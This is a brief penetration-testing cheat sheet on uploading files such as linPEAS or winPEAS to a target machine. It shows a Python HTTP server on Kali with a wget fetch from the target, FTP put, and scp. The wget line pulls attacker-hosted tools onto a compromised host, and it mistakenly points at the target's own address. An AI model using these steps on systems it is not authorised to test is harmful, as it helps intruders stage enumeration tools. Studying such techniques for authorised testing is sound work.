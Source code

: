 # Upload
Like the download process, is very common to upload file inside the target machine, such as linPEAS or winPEAS

## Python
The simplest way to do it is to start a Python Server in the same directory of the file and send a GET request

```console
# From Kali machine
python3 -m http.server {PORT}

# From Target machine
wget {TARGET_IP}:{PORT}/{FILE_NAME}
```

## FTP
File Transfer Protocol, standard protocol used to transfer files from one host to another

```console
ftp {TARGET_IP}

put {LOCAL PATH/FILE} {REMOTE PATH}
```

## SSH
Secure Copy Protocol, allows a secure file transfer using SSH.

```console
scp {FILE} {USERNAME}@{TARGET_IP}:{FILE_PATH_TO_WRITE}
```